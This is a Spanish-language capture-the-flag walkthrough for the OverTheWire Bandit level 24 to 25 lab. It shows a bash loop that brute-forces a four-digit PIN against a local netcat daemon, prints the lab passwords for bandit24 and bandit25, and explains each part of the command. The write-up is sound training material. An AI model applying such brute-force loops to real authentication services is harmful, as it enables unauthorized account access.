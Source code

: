 # LEVEL 24-25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos acceso
ssh bandit24 @bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solucion
```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```
## Notas adicionales
Este es un comando de Linux que utiliza un bucle "for" para iterar a través de una lista de valores de 0000 a 9999 y, para cada valor, ejecuta un comando "echo" que concatena el valor con una cadena constante "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar". El resultado se envía a través de una tubería (pipe) al programa "nc" (Netcat), que se utiliza para establecer una conexión de red a un servidor en la dirección "localhost" en el puerto "30002". Luego, la salida de "nc" se envía a través de otra tubería al comando "grep" que filtra las líneas que no contienen la cadena "Wrong".
## Referencias

